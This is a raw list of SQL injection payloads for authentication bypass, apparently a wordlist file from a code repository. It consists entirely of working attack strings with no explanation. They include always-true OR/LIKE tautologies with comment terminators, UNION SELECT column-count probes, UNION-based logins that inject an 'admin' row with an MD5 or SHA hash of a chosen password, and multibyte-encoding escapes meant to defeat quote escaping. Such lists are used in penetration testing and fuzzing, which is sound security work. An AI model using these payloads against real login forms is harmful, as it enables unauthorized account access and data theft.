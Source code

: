 ```
')||2=(2)LimIT(1)-- 2
')||2=(2)LimIT(1)#
')||2=(2)LimIT(1)/*
")||2=(2)LimIT(1)-- 2
")||2=(2)LimIT(1)#
")||2=(2)LimIT(1)/*
')||true-- 2
')||true#
')||true/*
')||true||('
")||true-- 2
")||true#
")||true/*
")||true||("
')||'2'LiKE('2
')||'2'LiKE'2'-- 2
')||'2'LiKE'2'#
')||'2'LiKE'2'/*
')||'2'LiKE'2'||('
')||(2)LiKE(2)-- 2
')||(2)LiKE(2)#
')||(2)LiKE(2)/*
')||(2)LiKE(2)||('
")||"2"LiKE("2
")||"2"LiKE"2"-- 2
")||"2"LiKE"2"#
")||"2"LiKE"2"/*
")||"2"LiKE"2"||("
")||(2)LiKE(2)-- 2
")||(2)LiKE(2)#
")||(2)LiKE(2)/*
")||(2)LiKE(2)||("
' UnION SELeCT 1,2`
' UnION SELeCT 1,2,3`
' UnION SELeCT 1,2,3,4`
' UnION SELeCT 1,2,3,4,5`
" UnION SELeCT 1,2`
" UnION SELeCT 1,2,3`
" UnION SELeCT 1,2,3,4`
" UnION SELeCT 1,2,3,4,5`
' or 1=1 limit 1 -- -+
'="or'
Pass1234.
Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658
Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658'#
Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.
Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.')#
Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61
Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61'#
Pass1234.' and 1=0 union select 'admin',sha('Pass1234.
Pass1234.' and 1=0 union select 'admin',sha('Pass1234.')#
Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658
Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658"#
Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.
Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.")#
Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61
Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61"#
Pass1234." and 1=0 union select "admin",sha("Pass1234.
Pass1234." and 1=0 union select "admin",sha("Pass1234.")#
%A8%27 Or 1=1-- 2
%8C%A8%27 Or 1=1-- 2
%bf' Or 1=1 -- 2
%A8%27 Or 1-- 2
```